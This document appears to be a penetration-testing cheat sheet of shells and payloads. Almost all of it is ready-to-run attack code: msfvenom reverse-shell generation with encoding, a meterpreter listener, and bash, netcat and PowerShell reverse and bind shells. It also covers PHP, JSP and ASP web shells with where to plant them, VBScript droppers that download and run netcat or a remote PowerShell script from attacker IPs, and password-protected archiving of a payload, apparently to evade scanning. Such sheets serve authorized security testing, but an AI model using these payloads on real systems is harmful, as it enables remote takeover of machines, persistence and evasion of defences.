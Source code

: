 # 🐚 Shells & Payloads

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md" %}
Refer for additional payloads
{% endembed %}

<table data-view="cards"><thead><tr><th></th><th></th><th></th></tr></thead><tbody><tr><td><strong>Staged payload</strong>:  </td><td>Executes in multiple stages and is more complex and requires meterpreter listener</td><td><pre><code>windows/shell/reverse_tcp
</code></pre></td></tr><tr><td><strong>Stageless payload</strong>:</td><td>The payload app contains all shellcode required to execute hence larger in size. Shell can be caught in netcat. Try this first.</td><td><pre><code>windows_shell_reverse_tcp
</code></pre></td></tr></tbody></table>

## Payloads

To use encoding:

{% code title="x86/shikata_ga_nai is a popular encoder" overflow="wrap" %}
```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
# -i for iterations
```
{% endcode %}

### Listener

**Netcat can not handle staged payloads**

To use a meterpreter listener use:

{% code overflow="wrap" %}
```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
```
{% endcode %}

### Archiving

#### Archiving the payload:

```bash
wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
tar -xzvf rarlinux-x64-612.tar.gz && cd rar
rar a ~/test.rar -p ~/test.js

```

**Removing the .RAR Extension**

```bash
mv test.rar test
```

**Archiving the Payload Again**

```bash
rar a test2.rar -p test
```

## Shells

* Basic bash reverse shell:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.37/9001 0>&1'
```

* Reverse shell on linux&#x20;

```bash
nc IP 4444 -e /bin/sh
```

* Reverse shell on windows with psexec

```bash
psexec.py user:'password'@IP
```

* windows netcat

```bash
nc.exe –e cmd.exe IP 4444
```

### Web Shells

Code: php

```php
<?php system($_REQUEST["cmd"]); ?>
```

Code: jsp

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

Code: asp

```asp
<% eval request("cmd") %>
```

Default locations:

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| `Apache`   | /var/www/html/         |
| `Nginx`    | /usr/local/nginx/html/ |
| `IIS`      | c:\inetpub\wwwroot\\   |
| `XAMPP`    | C:\xampp\htdocs\\      |

Example:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

Then to access:

```bash
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

### VBScript Shell

```vbnet
Set oShell = CreateObject("Wscript.Shell")
oShell.run "cmd.exe /c curl 10.8.1.208/nc64.exe -o C:\Windows\Temp\nc64.exe"
oShell.run "cmd.exe /c C:\Windows\Temp\nc64.exe 10.8.1.208 4445 -e cmd.exe"
```

or

{% code overflow="wrap" %}
```vbnet
CreateObject("WscrIpt.SheLL").Run "powershell -ep bypass -w hidden IEX (New-Object System.Net.WebClient).DownloadString('http://10.8.1.208/shell.ps1')"

```
{% endcode %}

### Powershell:

Reverse shells:

{% code overflow="wrap" %}
```
powershell -c "iwr -uri 10.10.14.22/nc64.exe -outfile %temp%\\n.exe"; %temp%\\n.exe -e cmd.exe 10.10.14.22 9001
```
{% endcode %}

{% code overflow="wrap" %}
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```
{% endcode %}

Bind shell:

{% code overflow="wrap" %}
```
// Some codepowershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
{% endcode %}

